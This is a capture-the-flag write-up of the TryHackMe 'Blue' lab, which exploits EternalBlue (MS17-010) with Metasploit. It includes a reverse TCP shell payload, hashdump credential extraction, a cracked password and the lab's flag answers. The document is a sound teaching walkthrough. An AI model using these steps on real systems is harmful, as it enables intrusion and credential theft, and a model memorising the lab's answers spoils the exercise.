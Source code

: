 ```yaml
---
layout: post
title:  "[THM] Blue"
date:   2021-02-05 11:47:08 +0200
categories: THM
---
```

Let's have a look into the [Blue](https://tryhackme.com/room/blue) room in TryHack me, as it states in the opening statement, this is a beginners machine. Blue is based on a well-known windows vulnerability called Eternal Blue. You can read a bit more [here](https://en.wikipedia.org/wiki/EternalBlue). 

Before starting remember to turn on the machine and connect to the VPN or start the attack box if you prefer.

# Recon
As suggested let's start by scanning ports on the machine to find open ports, run the command  ```sudo nmap -A -sS -p- IP -v```.

![Nmap scan](/assets/images/posts/blue/nmap.jpg)

* How many ports are open with a port number under 1000? **3**

To scan for vulnerabilities we can use the vuln script on nmap, for this we can run ```sudo nmap IP --script vuln```
![Nmap scan](/assets/images/posts/blue/vuln.jpg)

* What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)  **ms17-010**

*tip:* After getting such specific vulnerability you can run ```searchsploit ms17-010``` or inside msfconsole ```search ms17-010```. You can try to progress from this point without on your own.

# Gain Access
As we found the MS17-010 vulnerability, we will start Metasploit and search for it. 

Open ```msfconsole``` and run ```search ms17-010```, note that you will find the exploit for different operating systems and also scanners to verify if the target system is vulnerable to the EternalBlue exploit.

* Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........): **exploit/windows/smb/ms17_010_eternalblue**

First select the exploit by ```use {# of exploit}``` or ```use exploit/windows/smb/ms17_010_eternalblue```. Now you can see all the options available by running the command ```options```, and to set any of them you can use ```set NAME VALUE```.

* Show options and set the one required value. What is the name of this value? (All caps for submission): **RHOSTS**

Let's go ahead and set a value for RHOST ```set RHOSTS THM_IP```, notice that we should also set a payload, ```set payload windows/x64/shell/reverse_tcp```, if you don't have it already, after that you can see the options available for it. 

**Note:** Double-check the value of LHOSTS, it should display your VPN ip, if this is not the case modify it with the command: ```set LHOSTS YOUR_IP```.

When you are ready, type ```run``` and wait to see if the exploit succeeds. You should be able to see a success message.
![Successful exploit](/assets/images/posts/blue/run.jpg)

**Note:** I was using the latest version of msfconsole and I got a meterpreter console already running as SYSTEM, but for reference here are the steps if it is not your case:

* What is the name of the post module we will use?: **post/multi/manage/shell_to_meterpreter**
* Select this (use MODULE_PATH). Show options, what option are we required to change? **session**
* Set the required option, you may need to list all of the sessions to find your target here. -> Find your session by running session -l

# Cracking

Run the command ```hashdump``` and you will see a list of usernames and hashes.    
![Hash dump](/assets/images/posts/blue/hashdump.jpg)
What is the name of the non-default user? **Jon**

Now we need to crack the password for the user Jon, let's pause the meterpreter session by pressing ```Ctrl-Z```, now we are going to use the  ```post/windows/gather/hashdump``` to get the hashes to Metaexploit database, to run this post-exploit tool you will need to set the session by ```set SESSION #``` and then you can run it by typing ```run```.

To check the credentials stored in our database you can type the command ```cred```.

![Credentials on database](/assets/images/posts/blue/creds.jpg) 

You will see on the private column a that all the rows start with aad3b..., then there it is the actual hash you will need to copy, on this case for 'Jon' user it will be ffb43f0de35be4d9917ac0cc8ad57f8d, and you should crack it with your favorite tool.

* What is the cracked password? **alqfna22**

# Find flags!

Let's finish the exercise by finding the different flags on the system, to resume your meterpreter session type ```sessions #```, then let's open a normal windows shell by typing ```shell```, the commands you need to find the flags are ```cd```, to change directory, ```dir```, to list the content of a directory, and ```type file``` to print in the console the content of a file.

* Flag1? This flag can be found at the system root. **flag{access_the_machine}**
* Flag2? This flag can be found at the location where passwords are stored within Windows. **flag{sam_database_elevated_access}**, located at ```C:\Windows\System32\config```
* flag3? This flag can be found in an excellent location to loot. **flag{admin_documents_can_be_valuable}**, located at ```C:\Users\Jon\Documents```

Hope you had fun on this machine, and see you at the next one!